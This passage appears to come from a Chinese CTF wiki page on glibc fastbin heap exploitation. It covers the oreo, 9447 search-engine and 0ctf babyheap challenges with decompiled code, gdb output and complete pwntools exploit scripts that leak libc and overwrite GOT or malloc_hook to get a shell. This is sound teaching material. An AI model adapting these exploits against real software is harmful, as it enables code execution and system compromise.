    0x7ffff7dd1b05 <__memalign_hook+5>: 0xfff7a92a0000007f  0x000000000000007f
    0x7ffff7dd1b15 <__malloc_hook+5>:   0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b25 <main_arena+5>:  0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b35 <main_arena+21>: 0x0000000000000000  0x0000000000000000

.. 小总结-3:

小总结
~~~~~~

Arbitrary Alloc 在 CTF 中用地更加频繁。我们可以利用字节错位等方法来绕过 size 域的检验，实现任意地址分配 chunk，最后的效果也就相当于任意地址写任意值。

2014 hack.lu oreo
-----------------

基本分析
~~~~~~~~

.. code:: shell

    ➜  2014_Hack.lu_oreo git:(master) file oreo
    oreo: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.26, BuildID[sha1]=f591eececd05c63140b9d658578aea6c24450f8b, stripped
    ➜  2014_Hack.lu_oreo git:(master) checksec oreo         
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/house_of_spirit/2014_Hack.lu_oreo/oreo'
        Arch:     i386-32-little
        RELRO:    No RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)

可以看出，程序确实是比较老的，32位程序，动态链接，就连 RELRO 技术也没有上。

基本功能
~~~~~~~~

**需要注意的是，该程序并没有进行 setvbuf 操作，因此在初次执行 io 函数时，会在堆上分配空间。**

正如程序中直接输出的信息，程序主要是一个原始的在线枪支系统。其中，根据添加枪支的过程，我们可以得到枪支的基本结构如下

.. code:: c

    00000000 rifle           struc ; (sizeof=0x38, mappedto_5)
    00000000 descript        db 25 dup(?)
    00000019 name            db 27 dup(?)
    00000034 next            dd ?                    ; offset
    00000038 rifle           ends

程序的基本功能如下

-  添加枪支，其主要会读取枪支的名字与描述。但问题在于读取的名字的长度过长，可以覆盖 next 指针以及后面堆块的数据。可以覆盖后面堆块的数据大小为 56-(56-27)=27
   大小。需要注意的是，这些枪支的大小都是在fastbin 范围内的。
-  展示添加枪支，即从头到尾输出枪支的描述与名字。
-  订已经选择的枪支，即将所有已经添加的枪支释放掉，但是并没有置为NULL。
-  留下订货消息
-  展示目前状态，即添加了多少只枪，订了多少单，留下了什么信息。

不难分析得到，程序的漏洞主要存在于添加枪支时的堆溢出漏洞。

利用
~~~~

基本利用思路如下

1. 由于程序存在堆溢出漏洞，而且还可以控制 next 指针，我们可以直接控制 next 指针指向程序中 got 表的位置。当进行展示的时候，即可以输出对应的内容，这里同时需要确保假设对应地址为一个枪支结构体时，其 next
   指针为 NULL。这里我采用 puts@got。通过这样的操作，我们就可以获得出 libc 基地址，以及 system 函数地址。
2. 由于枪支结构体大小是 0x38 大小，所以其对应的 chunk 为 0x40。这里采用 ``house of sprit`` 的技术来返回 0x0804A2A8 处的chunk，即留下的消息的指针。因此，我们需要设置 0x0804A2A4 处的内容为
   0x40，即需要添加 0x40 支枪支，从而绕过大小检测。同时为了确保可以绕过 next chunk 的检测，这里我们编辑留下的消息。
3. 在成功分配这样的 chunk 后，我们其实就有了一个任意地址修改的漏洞，这里我们可以选择修改一个合适的 got 项为 system 地址，从而获得 shell。

具体代码如下

.. code:: python

    from pwn import *
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
    if args['DEBUG']:
        context.log_level = 'debug'
    context.binary = "./oreo"
    oreo = ELF("./oreo")
    if args['REMOTE']:
        p = remote(ip, port)
    else:
        p = process("./oreo")
    log.info('PID: ' + str(proc.pidof(p)[0]))
    libc = ELF('./libc.so.6')


    def add(descrip, name):
        p.sendline('1')
        #p.recvuntil('Rifle name: ')
        p.sendline(name)
        #p.recvuntil('Rifle description: ')
        #sleep(0.5)
        p.sendline(descrip)


    def show_rifle():
        p.sendline('2')
        p.recvuntil('===================================\n')


    def order():
        p.sendline('3')


    def message(notice):
        p.sendline('4')
        #p.recvuntil("Enter any notice you'd like to submit with your order: ")
        p.sendline(notice)


    def exp():
        print 'step 1. leak libc base'
        name = 27 * 'a' + p32(oreo.got['puts'])
        add(25 * 'a', name)
        show_rifle()
        p.recvuntil('===================================\n')
        p.recvuntil('Description: ')
        puts_addr = u32(p.recvuntil('\n', drop=True)[:4])
        log.success('puts addr: ' + hex(puts_addr))
        libc_base = puts_addr - libc.symbols['puts']
        system_addr = libc_base + libc.symbols['system']
        binsh_addr = libc_base + next(libc.search('/bin/sh'))

        print 'step 2. free fake chunk at 0x0804A2A8'

        # now, oifle_cnt=1, we need set it = 0x40
        oifle = 1
        while oifle < 0x3f:
            # set next link=NULL
            add(25 * 'a', 'a' * 27 + p32(0))
            oifle += 1
        payload = 'a' * 27 + p32(0x0804a2a8)
        # set next link=0x0804A2A8, try to free a fake chunk
        add(25 * 'a', payload)
        # before free, we need to bypass some check
        # fake chunk's size is 0x40
        # 0x20 *'a' for padding the last fake chunk
        # 0x40 for fake chunk's next chunk's prev_size
        # 0x100 for fake chunk's next chunk's size
        # set fake iofle' next to be NULL
        payload = 0x20 * '\x00' + p32(0x40) + p32(0x100)
        payload = payload.ljust(52, 'b')
        payload += p32(0)
        payload = payload.ljust(128, 'c')
        message(payload)
        # fastbin 0x40: 0x0804A2A0->some where heap->NULL
        order()
        p.recvuntil('Okay order submitted!\n')

        print 'step 3. get shell'
        # modify free@got to system addr
        payload = p32(oreo.got['strlen']).ljust(20, 'a')
        add(payload, 'b' * 20)
        log.success('system addr: ' + hex(system_addr))
        #gdb.attach(p)
        message(p32(system_addr) + ';/bin/sh\x00')

        p.interactive()


    if __name__ == "__main__":
        exp()

当然，该题目也可以使用 ``fast bin attack`` 中的其它技术来实现，可参考参考文献中的链接。

2015 9447 CTF : Search Engine
-----------------------------

基本信息
~~~~~~~~

.. code:: shell

    ➜  2015_9447ctf_search-engine git:(master) file search
    search: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=4f5b70085d957097e91f940f98c0d4cc6fb3343f, stripped
    ➜  2015_9447ctf_search-engine git:(master) checksec search   
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/fastbin_attack/2015_9447ctf_search-engine/search'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
        FORTIFY:  Enabled

.. 基本功能-1:

基本功能
~~~~~~~~

程序的基本功能是

-  索引一个句子

   -  大小v0，(unsigned int)(v0 - 1) > 0xFFFD
   -  读取的字符串长度必须和给定的大小相等
   -  每次索引的句子都是直接在直接建立在前面的句子上的。

-  在一个句子中搜索单词

   -  大小v0，(unsigned int)(v0 - 1) > 0xFFFD

-  读取指定长度字符串

   -  如果有回车标记

      -  在指定长度内没有遇到回车，则读完没有设置NULL标记
      -  在指定长度内遇到回车，就截断返回。

   -  没有回车标记

      -  读够指定长度，没有NULL标记结尾。

词语结构体
~~~~~~~~~~

通过分析索引句子的过程，我们可以得到词语的结构如下

::

    00000000 word_struct     struc ; (sizeof=0x28, mappedto_6)
    00000000 content         dq ?
    00000008 size            dd ?
    0000000C padding1        dd ?
    00000010 sentence_ptr    dq ?                    ; offset
    00000018 len             dd ?
    0000001C padding2        dd ?
    00000020 next            dq ?                    ; offset
    00000028 word_struct     ends

堆内存相关操作
~~~~~~~~~~~~~~

分配

-  malloc 40 字节为一个word结构体
-  为句子或者单词 malloc 指定大小。

释放

-  释放删除的句子
-  释放删除句子所搜索的临时单词
-  释放索引句子时未使用的单词结构

漏洞
~~~~

**索引句子读取字符串时无NULL结尾**

在索引句子时 flag_enter 永远为 0，所以读取句子时最后没有 NULL 结尾。

.. code:: c

        _flag_enter = flag_enter;
        v4 = 0;
        while ( 1 )
        {
          v5 = &s[v4];
          v6 = fread(&s[v4], 1uLL, 1uLL, stdin);
          if ( v6 <= 0 )
            break;
          if ( *v5 == '\n' && _flag_enter )
          {
            if ( v4 )
            {
              *v5 = 0;
              return;
            }
            v4 = v6 - 1;
            if ( len <= v6 - 1 )
              break;
          }
          else
          {
            v4 += v6;
            if ( len <= v4 )
              break;
          }
        }

**读取选择操作数**

.. code:: c

    __int64 read_num()
    {
      __int64 result; // rax
      char *endptr; // [rsp+8h] [rbp-50h]
      char nptr; // [rsp+10h] [rbp-48h]
      unsigned __int64 v3; // [rsp+48h] [rbp-10h]

      v3 = __readfsqword(0x28u);
      read_str(&nptr, 48, 1);
      result = strtol(&nptr, &endptr, 0);
      if ( endptr == &nptr )
      {
        __printf_chk(1LL, "%s is not a valid number\n", &nptr);
        result = read_num();
      }
      __readfsqword(0x28u);
      return result;
    }

因为 read_str 不设置NULL ，因此，如果 nptr 读取的不合法的话，就有可能会 leak 出栈上的内容。

**索引句子释放未置NULL**

.. code:: c

      else
      {
        free(v6);
      }

**搜索词语中删除词语时，对应句子指针只是释放，并没有设置为NULL**

.. code:: c

      for ( i = head; i; i = i->next )
      {
        if ( *i->sentence_ptr )
        {
          if ( LODWORD(i->size) == v0 && !memcmp((const void *)i->content, v1, v0) )
          {
            __printf_chk(1LL, "Found %d: ", LODWORD(i->len));
            fwrite(i->sentence_ptr, 1uLL, SLODWORD(i->len), stdout);
            putchar('\n');
            puts("Delete this sentence (y/n)?");
            read_str(&choice, 2, 1);
            if ( choice == 'y' )
            {
              memset(i->sentence_ptr, 0, SLODWORD(i->len));
              free(i->sentence_ptr);
              puts("Deleted!");
            }
          }
        }
      }
      free(v1);

可以看出，在每次释放 i->sentence_ptr 之前，这个句子的内容就会全部被设置为 ``\x00`` ，由于单词结构体中存储的单词只是句子的一个指针，所以单词也会被置为 ``\x00``
。该句子对应的那些单词仍然是存在于链表中的，并没有被删除，因此每次搜索单词的时候，仍然会判断。看起来由于句子内容被置为 ``\x00`` 可以防止通过 ``*i->sentence_ptr`` 验证。然而，由于 chunk
被释放后会被放到 bin 中，当 chunk 不是 fastbin 或者 chunk 被重新分配出去使用的时候，也就有可能会产生 double free 的情况。此外，当句子被 ``memset`` 的时候，单词虽然都变为了 ``\x00``
，但是我们仍然可以通过两个 ``\x00`` 的比较来绕过 ``memcmp`` 的检测。

.. 利用-1:

利用
~~~~

利用思路
^^^^^^^^

基本利用思路如下

-  利用 unsorted bin 地址泄漏 libc 基地址
-  利用 double free 构造 fastbin 循环链表
-  分配 chunk 到 malloc_hook 附近，修改malloc_hook 为 one_gadget

泄漏 libc 地址
^^^^^^^^^^^^^^

这里我们分配一个 small bin 大小的 chunk ，当它被释放后，就会放入到 unsorted bin 中。因而，只要 ``unsorted bin`` 的地址的起始字节不是 ``\x00`` 便可以通过验证。同时，我们可以构造 ``\x00``
来进行比较，从而通过验证。具体如下

.. code:: python

    def leak_libc():
        smallbin_sentence = 's' * 0x85 + ' m '
        index_sentence(smallbin_sentence)
        search_word('m')
        p.recvuntil('Delete this sentence (y/n)?\n')
        p.sendline('y')
        search_word('\x00')
        p.recvuntil('Found ' + str(len(smallbin_sentence)) + ': ')
        unsortedbin_addr = u64(p.recv(8))
        p.recvuntil('Delete this sentence (y/n)?\n')
        p.sendline('n')
        return unsortedbin_addr

构造 fastbin 循环链表
^^^^^^^^^^^^^^^^^^^^^

由于我们最后希望在 malloc_hook 处分配 chunk，而一般分配 malloc_hook 附近的 chunk 一般大小都是0x7f。即，我们所需要设置的设置的 fast bin 的数据字节部分的大小为 0x60。这里我们按照如下方式构造

1. 分别索引句子a，索引句子b，索引句子c，则此时单词链表中索引的句子的相对顺序为c->b->a。假设句子 a 为’a’ \* 0x5d+‘d’，句子 b 为 ‘b’ \* 0x5d+‘d’，句子c类似。
2. 索引单词d，三个均删除，则此时 fastbin 中的链表情况为 a->b->c->NULL，这是因为首先释放的是句子c，最后释放的是句子 a 。这时，搜索单词时\ ``*i->sentence_ptr`` 对于a, b 来说都是可以绕过的。
3. 我们此时再次删除搜索单词 ``\x00``\ 。首先遍历的是 c，但是 c 的验证不通过；其次遍历的是b，验证通过，我们将其释放；其次遍历的是a，验证通过，但是我们不删除。则此时 fastbin 的情况为
   b->a->b->a->…。即已经构成了double free b的情况。由于我们先前为了 leak libc 还建立一个句子，所以还有一个单词可以比较，这里我们也不删除。

具体代码如下

.. code:: python

        # 2. create cycle fastbin 0x70 size
        index_sentence('a' * 0x5d + ' d ')  #a
        index_sentence('b' * 0x5d + ' d ')  #b
        index_sentence('c' * 0x5d + ' d ')  #c

        # a->b->c->NULL
        search_word('d')
        p.recvuntil('Delete this sentence (y/n)?\n')
        p.sendline('y')
        p.recvuntil('Delete this sentence (y/n)?\n')
        p.sendline('y')
        p.recvuntil('Delete this sentence (y/n)?\n')
        p.sendline('y')

        # b->a->b->a->...
        search_word('\x00')
        p.recvuntil('Delete this sentence (y/n)?\n')
        p.sendline('y')
        p.recvuntil('Delete this sentence (y/n)?\n')
        p.sendline('n')
        p.recvuntil('Delete this sentence (y/n)?\n')
        p.sendline('n')

效果如下

.. code:: shell

    pwndbg> fastbins 
    fastbins
    0x20: 0x0
    0x30: 0x1d19320 ◂— 0x0
    0x40: 0x0
    0x50: 0x0
    0x60: 0x0
    0x70: 0x1d191b0 —▸ 0x1d19010 —▸ 0x1d191b0 ◂— 0x1d19010
    0x80: 0x0

分配 malloc_hook 附近chunk
^^^^^^^^^^^^^^^^^^^^^^^^^^

此时，fastbin 的链表为 b->a->b->a->…，则我们可以在申请第一个相同大小的 chunk 时，设置 b 的 fd 为 malloc_hook 附近处的 chunk ``0x7fd798586aed``\ （这里是举一个例子，代码中需使用相对地址）。

.. code:: shell

    pwndbg> print (void*)&main_arena 
    $1 = (void *) 0x7fd798586b20 <main_arena>
    pwndbg> x/8gx 0x7fd798586b20-16
    0x7fd798586b10 <__malloc_hook>: 0x0000000000000000  0x0000000000000000
    0x7fd798586b20 <main_arena>:    0x0000000000000000  0x0000000000bce130
    0x7fd798586b30 <main_arena+16>: 0x0000000000000000  0x0000000000000000
    0x7fd798586b40 <main_arena+32>: 0x0000000000000000  0x0000000000000000
    pwndbg> find_fake_fast 0x7fd798586b10 0x7f
    FAKE CHUNKS
    0x7fd798586aed PREV_INUSE IS_MMAPED NON_MAIN_ARENA {
      prev_size = 15535264025435701248, 
      size = 127, 
      fd = 0xd798247e20000000, 
      bk = 0xd798247a0000007f, 
      fd_nextsize = 0x7f, 
      bk_nextsize = 0x0
    }
    pwndbg> print /x 0x7fd798586b10-0x7fd798586aed
    $2 = 0x23
    pwndbg> print /x 0x7fd798586b20-0x7fd798586aed
    $3 = 0x33

那么当再次分配 b 的时候，由于此时 b 的 fd 已经被我们修改为了malloc_hook附近的地址，所以这时候我们再次分配一个 chunk，就会指向 ``0x7fd798586aed``\ 。 此后便只需要将 malloc_hook 修改为 one_gadget
地址就可以拿到 shell 了。

.. code:: python

        # 3. fastbin attack to malloc_hook nearby chunk
        fake_chunk_addr = main_arena_addr - 0x33
        fake_chunk = p64(fake_chunk_addr).ljust(0x60, 'f')

        index_sentence(fake_chunk)

        index_sentence('a' * 0x60)

        index_sentence('b' * 0x60)

        one_gadget_addr = libc_base + 0xf02a4
        payload = 'a' * 0x13 + p64(one_gadget_addr)
        payload = payload.ljust(0x60, 'f')
        #gdb.attach(p)
        index_sentence(payload)
        p.interactive()

这里可能需要多选择几个 one_gadget 地址，因为 one_gadget 成功是有条件的。

shell
^^^^^

.. code:: shell

    ➜  2015_9447ctf_search-engine git:(master) python exp.py
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/fastbin_attack/2015_9447ctf_search-engine/search'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
        FORTIFY:  Enabled
    [+] Starting local process './search': pid 31158
    [*] PID: 31158
    [+] unsortedbin addr: 0x7f802e73bb78
    [+] libc base addr: 0x7f802e377000
    [*] Switching to interactive mode
    Enter the sentence:
    $ ls
    exp.py       search      search.id1  search.nam
    libc.so.6  search.id0  search.id2  search.til

当然，这里还有一种\ `方法 <https://www.gulshansingh.com/posts/9447-ctf-2015-search-engine-writeup/>`__\ ，将 chunk 分配到栈上。

2017 0ctf babyheap
------------------

.. 基本信息-1:

基本信息
~~~~~~~~

.. code:: shell

    ➜  2017_0ctf_babyheap git:(master) file babyheap                            
    babyheap: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9e5bfa980355d6158a76acacb7bda01f4e3fc1c2, stripped
    ➜  2017_0ctf_babyheap git:(master) checksec babyheap   
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/fastbin_attack/2017_0ctf_babyheap/babyheap'
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled

64位程序，保护全部开启。

.. 基本功能-2:

基本功能
~~~~~~~~

程序是一个堆分配器，主要由以下四种功能

.. code:: c

      puts("1. Allocate");
      puts("2. Fill");
      puts("3. Free");
      puts("4. Dump");
      puts("5. Exit");
      return printf("Command: ");

其中，每次读取命令的函数由读取指定长度的字符串的函数而决定。

通过分配函数

.. code:: c

    void __fastcall allocate(__int64 a1)
    {
      signed int i; // [rsp+10h] [rbp-10h]
      signed int v2; // [rsp+14h] [rbp-Ch]
      void *v3; // [rsp+18h] [rbp-8h]

      for ( i = 0; i <= 15; ++i )
      {
        if ( !*(_DWORD *)(24LL * i + a1) )
        {
          printf("Size: ");
          v2 = read_num();
          if ( v2 > 0 )
          {
            if ( v2 > 4096 )
              v2 = 4096;
            v3 = calloc(v2, 1uLL);
            if ( !v3 )
              exit(-1);
            *(_DWORD *)(24LL * i + a1) = 1;
            *(_QWORD *)(a1 + 24LL * i + 8) = v2;
            *(_QWORD *)(a1 + 24LL * i + 16) = v3;
            printf("Allocate Index %d\n", (unsigned int)i);
          }
          return;
        }
      }
    }

申请的 chunk 的最大为 4096。此外，我们可以看出每个 chunk 主要有三个字段：是否在使用，堆块大小，堆块位置。故而我们可以创建对应的结构体。

::

    00000000 chunk           struc ; (sizeof=0x18, mappedto_6)
    00000000 inuse           dq ?
    00000008 size            dq ?
    00000010 ptr             dq ?
    00000018 chunk           ends

**需要注意的是堆块是由 calloc 分配的，所以 chunk 中的内容全都为\ ``\x00``\ 。**

在填充内容的功能中，使用读取内容的函数是直接读取指定长度的内容，并没有设置字符串结尾。\ **而且比较有意思的是，这个指定长度是我们指定的，并不是之前 chunk
分配时指定的长度，所以这里就出现了任意堆溢出的情形。**

.. code:: c

    __int64 __fastcall fill(chunk *a1)
    {
      __int64 result; // rax
      int v2; // [rsp+18h] [rbp-8h]
      int v3; // [rsp+1Ch] [rbp-4h]

      printf("Index: ");
      result = read_num();
      v2 = result;
      if ( (signed int)result >= 0 && (signed int)result <= 15 )
      {
        result = LODWORD(a1[(signed int)result].inuse);
        if ( (_DWORD)result == 1 )
        {
          printf("Size: ");
          result = read_num();
          v3 = result;
          if ( (signed int)result > 0 )
          {
            printf("Content: ");
            result = read_content((char *)a1[v2].ptr, v3);
          }
        }
      }
      return result;
    }

在释放chunk的功能中该设置的都设置了。

.. code:: c

    __int64 __fastcall free_chunk(chunk *a1)
    {
      __int64 result; // rax
      int v2; // [rsp+1Ch] [rbp-4h]

      printf("Index: ");
      result = read_num();
      v2 = result;
      if ( (signed int)result >= 0 && (signed int)result <= 15 )
      {
        result = LODWORD(a1[(signed int)result].inuse);
        if ( (_DWORD)result == 1 )
        {
          LODWORD(a1[v2].inuse) = 0;
          a1[v2].size = 0LL;
          free(a1[v2].ptr);
          result = (__int64)&a1[v2];
          *(_QWORD *)(result + 16) = 0LL;
        }
      }
      return result;
    }

dump 就是输出对应索引 chunk 的内容。

.. 利用思路-1:

利用思路
~~~~~~~~

可以确定的是，我们主要有的漏洞就是任意长度堆溢出。由于该程序几乎所有保护都开启了，所以我们必须要有一些泄漏才可以控制程序的流程。基本利用思路如下

-  利用 unsorted bin 地址泄漏 libc 基地址。
-  利用 fastbin attack 将chunk 分配到 malloc_hook 附近。

泄漏 libc 基地址
^^^^^^^^^^^^^^^^

由于我们是希望使用 unsorted bin 来泄漏 libc 基地址，所以必须要有 chunk 可以被链接到 unsorted bin 中，所以该 chunk 不能使 fastbin chunk，也不能和 top chunk 相邻。因为前者会被添加到 fastbin
中，后者在不是fastbin 的情况下，会被合并到 top chunk 中。因此，我们这里构造一个 small bin chunk。在将该 chunk 释放到 unsorted bin 的同时，也需要让另外一个正在使用的 chunk 可以同时指向该 chunk
的位置。这样才可以进行泄漏。具体设计如下

.. code:: python

        # 1. leak libc base
        allocate(0x10)  # idx 0, 0x00
        allocate(0x10)  # idx 1, 0x20
        allocate(0x10)  # idx 2, 0x40
        allocate(0x10)  # idx 3, 0x60
        allocate(0x80)  # idx 4, 0x80
        # free idx 1, 2, fastbin[0]->idx1->idx2->NULL
        free(2)
        free(1)

首先，我们申请了 5 个chunk，并释放了两个chunk，此时堆的情况如下。

.. code:: shell

    pwndbg> x/20gx 0x55a03ca22000
    0x55a03ca22000: 0x0000000000000000  0x0000000000000021 idx 0
    0x55a03ca22010: 0x0000000000000000  0x0000000000000000
    0x55a03ca22020: 0x0000000000000000  0x0000000000000021 idx 1
    0x55a03ca22030: 0x000055a03ca22040  0x0000000000000000
    0x55a03ca22040: 0x0000000000000000  0x0000000000000021 idx 2
    0x55a03ca22050: 0x0000000000000000  0x0000000000000000
    0x55a03ca22060: 0x0000000000000000  0x0000000000000021 idx 3
    0x55a03ca22070: 0x0000000000000000  0x0000000000000000
    0x55a03ca22080: 0x0000000000000000  0x0000000000000091 idx 4
    0x55a03ca22090: 0x0000000000000000  0x0000000000000000
    pwndbg> fastbins 
    fastbins
    0x20: 0x55a03ca22020 —▸ 0x55a03ca22040 ◂— 0x0
    0x30: 0x0
    0x40: 0x0
    0x50: 0x0
    0x60: 0x0
    0x70: 0x0
    0x80: 0x0

当我们编辑 idx0 后，确实已经将其指向idx4了。这里之所以可以成功是因为堆的始终是 4KB 对齐的，所以idx 4的起始地址的第一个字节必然是0x80。

.. code:: python

        # edit idx 0 chunk to particial overwrite idx1's fd to point to idx4
        payload = 0x10 * 'a' + p64(0) + p64(0x21) + p8(0x80)
        fill(0, len(payload), payload)

修改成功后如下

.. code:: shell

    pwndbg> x/20gx 0x55a03ca22000
    0x55a03ca22000: 0x0000000000000000  0x0000000000000021
    0x55a03ca22010: 0x6161616161616161  0x6161616161616161
    0x55a03ca22020: 0x0000000000000000  0x0000000000000021
    0x55a03ca22030: 0x000055a03ca22080  0x0000000000000000
    0x55a03ca22040: 0x0000000000000000  0x0000000000000021
    0x55a03ca22050: 0x0000000000000000  0x0000000000000000
    0x55a03ca22060: 0x0000000000000000  0x0000000000000021
    0x55a03ca22070: 0x0000000000000000  0x0000000000000000
    0x55a03ca22080: 0x0000000000000000  0x0000000000000091
    0x55a03ca22090: 0x0000000000000000  0x0000000000000000
    pwndbg> fastbins 
    fastbins
    0x20: 0x55a03ca22020 —▸ 0x55a03ca22080 ◂— 0x0
    0x30: 0x0
    0x40: 0x0
    0x50: 0x0
    0x60: 0x0
    0x70: 0x0
    0x80: 0x0

那么，当我们再次申请两个时，第二个申请到的就是idx 4处的chunk。为了能够申请成功，我们需要确保 idx4 的size 与当前 fastbin 的大小一致，所以，我们得修改它的大小。申请成功后，idx2会指向idx4。

.. code:: python

        # if we want to allocate at idx4, we must set it's size as 0x21
        payload = 0x10 * 'a' + p64(0) + p64(0x21)
        fill(3, len(payload), payload)
        allocate(0x10)  # idx 1
        allocate(0x10)  # idx 2, which point to idx4's location

之后，如果我们想要将 idx 4 放到 unsorted bin 中的话，为了防止其与top chunk 合并，我们需要再次申请一个chunk。此后再释放 idx4 就会进入 unsorted bin中去了。此时由于 idx2
也指向这个地址，所以我们直接展示他的内容就可以得到unsorted bin的地址了。

.. code:: python

        # if want to free idx4 to unsorted bin, we must fix its size
        payload = 0x10 * 'a' + p64(0) + p64(0x91)
        fill(3, len(payload), payload)
        # allocate a chunk in order when free idx4, idx 4 not consolidate with top chunk
        allocate(0x80)  # idx 5
        free(4)
        # as idx 2 point to idx4, just show this
        dump(2)
        p.recvuntil('Content: \n')
        unsortedbin_addr = u64(p.recv(8))
        main_arena = unsortedbin_addr - offset_unsortedbin_main_arena
        log.success('main arena addr: ' + hex(main_arena))
        main_arena_offset = 0x3c4b20
        libc_base = main_arena - main_arena_offset
        log.success('libc base addr: ' + hex(libc_base))

分配chunk到malloc_hook附近
^^^^^^^^^^^^^^^^^^^^^^^^^^

由于 malloc hook 附近的 chunk 大小为 0x7f，所以数据区域为0x60。这里我们再次申请的时候，对应 fastbin 链表中没有相应大小chunk，所以根据堆分配器规则，它会依次处理unsorted
bin中的chunk，将其放入到对应的bin中，之后会再次尝试分配 chunk，因为之前释放的 chunk 比当前申请的 chunk 大，所以可以从其前面分割出来一块。所以 idx2
仍然指向该位置，那么我们可以使用类似的办法先释放申请到的chunk，然后再次修改 fd 指针为 fake chunk 即可。此后我们修改 malloc_hook 处的指针即可得到触发 onegadget。

.. code:: python

    # 2. malloc to malloc_hook nearby
    # allocate a 0x70 size chunk same with malloc hook nearby chunk, idx4
    allocate(0x60)
    free(4)
    # edit idx4's fd point to fake chunk
    fake_chunk_addr = main_arena - 0x33
    fake_chunk = p64(fake_chunk_addr)
    fill(2, len(fake_chunk), fake_chunk)

    allocate(0x60)  # idx 4
    allocate(0x60)  # idx 6

    one_gadget_addr = libc_base + 0x4526a
    payload = 0x13 * 'a' + p64(one_gadget_addr)
    fill(6, len(payload), payload)
    # trigger malloc_hook
    allocate(0x100)
    p.interactive() 

同时，这里的 onegadget 地址也可能需要尝试多次。

题目
----

-  L-CTF2016–pwn200

参考文献
--------

-  https://www.gulshansingh.com/posts/9447-ctf-2015-search-engine-writeup/
-  http://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html
-  https://www.slideshare.net/YOKARO-MON/oreo-hacklu-ctf-2014-65771717

.. |image0| image:: /pwn/heap/figure/fastbin_link_list.png
.. |image1| image:: /pwn/heap/figure/fastbin_free_chunk1.png
.. |image2| image:: /pwn/heap/figure/fastbin_free_chunk2.png
.. |image3| image:: /pwn/heap/figure/fastbin_free_chunk3.png
